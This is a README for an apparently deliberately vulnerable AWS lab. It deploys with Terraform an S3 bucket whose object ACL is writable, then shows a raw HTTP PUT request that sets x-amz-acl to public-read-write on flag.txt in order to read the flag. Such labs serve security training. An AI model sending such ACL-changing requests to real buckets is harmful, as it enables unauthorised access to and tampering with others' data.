


# Description

English | [中文](./README_CN.md)

This is a script that can help you quickly build a bucket object ACL reading and writing scenario

Although you may not encounter it in a real environment, have fun playing

## Deployment Environment

```bash
cd /TerraformGoat/aws/s3/object_acl_writable/
```

Configure AWS Access Credentials

```shell
aws configure
```

> You can see the access key in the AWS [Console --> Security Credentials]

```bash
terraform init
terraform apply
```

After typing yes, the scene will be built automatically and quickly

## Get Flag

access flag.txt

```shell
hxsecxxxxx.s3.us-east-1.amazonaws.com/flag.txt
```


modify object acl



```http
PUT /flag.txt?acl HTTP/1.1
Host: hxsecxxxxx.s3.eu-west-1.amazonaws.com
x-amz-acl: public-read-write
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

get flag



## Destruction Challenge

```bash
terraform destroy
```

enter yes
